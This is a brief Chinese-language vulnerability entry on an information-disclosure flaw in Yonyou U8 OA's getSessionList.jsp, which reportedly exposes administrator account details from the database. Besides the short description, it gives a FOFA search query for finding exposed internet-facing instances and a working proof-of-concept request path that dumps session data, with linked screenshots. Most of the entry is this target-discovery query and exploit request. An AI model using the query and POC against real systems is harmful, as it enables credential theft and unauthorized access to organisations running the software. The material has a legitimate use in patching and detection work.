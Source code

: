 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

```
用友 U8 OA
```

## FOFA

```
"用友U8-OA"
```

## 漏洞复现

登录页面

![image-20220520141805589](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201418731.png)

验证POC

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![image-20220520141832426](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201418464.png)